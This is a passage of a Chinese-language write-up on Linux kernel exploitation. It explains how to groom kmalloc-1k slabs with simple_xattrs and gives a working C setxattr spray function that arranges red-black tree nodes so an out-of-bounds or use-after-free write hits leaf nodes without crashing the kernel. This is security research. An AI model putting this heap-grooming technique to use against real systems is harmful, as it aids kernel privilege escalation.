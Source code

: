 - 确保你可以  
simple_xattrs使用 OOB 或 UAF 原语轻松进行覆盖  
  
假设有人simple_xattrs从用户空间分配了 16 个，这将导致其中 8 个最终进入某个未使用的 slab，而另外 8 个进入我们的 CPU 主 slab。到目前为止，这是可以接受的行为，但是如果我们能够在其中分配一些易受攻击的对象，kmem_cache,我们就可以覆盖最后分配的 8 个对象之一  
kmalloc-1k。现在，这通常意味着在 15 个节点的红黑树中，一个变量被迫采用一个随机节点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacia2klwkMboUlFlGFIc4Bw8ds48PQI123jKZAWib7WVZCBxgSEiawMhCFpe4qictuVeZ4IBpoTFySSBw/640?wx_fmt=png&from=appmsg "")  
  
好吧，我们不知道是哪一个，所以如果我们不小心以各种非常糟糕的方式破坏树，我们就有可能在几次尝试后彻底崩溃内核。  
  
现在，我确信我最喜欢的数学家保罗·埃尔多斯 (Paul Erdos)很乐意花时间研究这个普遍问题，即如果你给出一棵随机的红黑树及其中随机选择的节点，并开始询问有关所得到的结构的算法问题，那么会发生什么有趣的事情。  
  
因为与那家伙相比，我们完全是笨蛋，所以我们要做的就是按顺序分配一堆节点，以便我们最后 8 个分配恰好是我们的写入原语可以覆盖的有趣分配 - 因此我们以这样的方式分配它们，它们恰好是红黑树底部的 8 个红色叶子节点。怎么做？好吧，只需基本的 Python 就可以告诉你这是可行的：  
  
```
voidspray_xattr(void){    char xattr_name[XATTR_NAME_MAX_SIZE];    char xattr_value[XATTR_NAME_MAX_SIZE];    int base_nodes[] = {7, 3, 11, 1, 5, 9, 13};    int leaf_nodes[] = {0, 2, 4, 6, 8, 10, 12, 14};    int base_size = sizeof(base_nodes) / sizeof(base_nodes[0]);    int leaf_size = sizeof(leaf_nodes) / sizeof(leaf_nodes[0]);    for (int i = 100; i < 111; i++) {        snprintf(xattr_value, XATTR_NAME_MAX_SIZE, "attilaszia-%d%512d", i, i);        snprintf(xattr_name, XATTR_NAME_MAX_SIZE, "security.%d", i);        setxattr("/tmp/tmpfs/xattr_node_3", xattr_name, xattr_value, strlen(xattr_value), 0);    }    for (int i = 0; i < base_size; i++) {        snprintf(xattr_value, XATTR_NAME_MAX_SIZE, "attilaszia-%d%512d", base_nodes[i], base_nodes[i]);        snprintf(xattr_name, XATTR_NAME_MAX_SIZE, "security.%02d", base_nodes[i]);        setxattr("/tmp/tmpfs/xattr_node", xattr_name, xattr_value, strlen(xattr_value), 0);    }    for (int i = 0; i < leaf_size; i++) {        snprintf(xattr_value, XATTR_NAME_MAX_SIZE, "attilaszia-%d%512d", leaf_nodes[i], leaf_nodes[i]);        snprintf(xattr_name, XATTR_NAME_MAX_SIZE, "security.%02d", leaf_nodes[i]);        setxattr("/tmp/tmpfs/xattr_node", xattr_name, xattr_value, strlen(xattr_value), 0);    }}
```  
  
  
当我开始研究这个问题的时候，我对数据结构的知识还很生疏，所以如果你想知道它为什么有效，下面就是它的要点。  
  
红黑树属性回顾  
1. 每个节点要么是红色，要么是黑色。  
  
1. 根部始终是黑色的。  
  
1. 红色节点不能有红色子节点（即，任何路径上都没有两个连续的红色节点）。  
  
1. 从一个节点到其后代空节点的每条路径必须具有相同数量的黑色节点，称为黑高度。  
  
现在，让我们分析一下删除一片红叶时会发生什么：  
- 去除叶子不会影响黑色高度：  
  
红叶没有子节点，移除它不会影响到空节点的任何路径上的黑节点。因此，所有路径的黑高保持不变，保持该不变量。  
- 没有红色父节点的红色节点：  
  
根据属性 3，红色节点不能有红色父节点，因此删除红色叶子并不违反有关连续红色节点的规则。红色父节点（如果存在）要么是黑色，要么红色叶子本身就是没有父节点的根，在这种情况下不会出现这种情况。  
  
插入顺序看起来有些随机，但实际上有多种选择。编写更多 Python 代码后，我们使用一个简单的Tk画布来可视化在分配这些扩展属性时内核中的数据结构内部发生的情况：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rWGOWg48tacia2klwkMboUlFlGFIc4Bw85BtvGiboZsOpXGKUZhk5ficAdZNkknxzNEvBbD4ER7VQqQVoyxXNWiakA/640?wx_fmt=gif&from=appmsg "")  
  
  
这样，我们就避免了在擦除调用期间进行所有粗略的树旋转，因为这些旋转肯定会弄乱我们的指针并导致未处理的页面错误和内核崩溃。此类操作是有问题的（/lib/rbtree.c#L227）：  
  